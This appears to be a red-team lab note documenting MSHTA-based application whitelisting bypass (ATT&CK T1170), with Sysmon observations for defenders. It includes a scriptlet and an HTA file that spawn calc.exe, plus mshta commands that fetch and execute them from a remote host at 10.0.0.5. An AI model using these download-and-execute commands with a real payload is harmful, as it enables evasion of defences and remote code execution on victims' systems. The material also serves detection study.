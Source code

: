 ```yaml
---
description: MSHTA code execution - bypass application whitelisting.
---
```


# MSHTA

## Execution

Writing a scriptlet file that will launch calc.exe when invoked:

{% code title="http://10.0.0.5/m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode %}

Invoking the scriptlet file hosted remotely:

{% code title="attacker@victim" %}
```csharp
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```
{% endcode %}

## Observations

As expected, calc.exe is spawned by mshta.exe. Worth noting that mhsta and cmd exit almost immediately after invoking the calc.exe:

![](../../.gitbook/assets/mshta-calc.png)

As a defender, look at sysmon logs for mshta establishing network connections:

![](../../.gitbook/assets/mshta-connection.png)

Also, suspicious commandlines:

![](../../.gitbook/assets/mshta-commandline.png)

## Bonus

The hta file can be invoked like so:

```csharp
mshta.exe http://10.0.0.5/m.hta
```

![](../../.gitbook/assets/mshta-calc2.png)

or by navigating to the file itself, launching it and clicking run:

![](../../.gitbook/assets/mshta-url.png)

{% code title="http://10.0.0.5/m.hta" %}
```markup
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```
{% endcode %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1170" %}

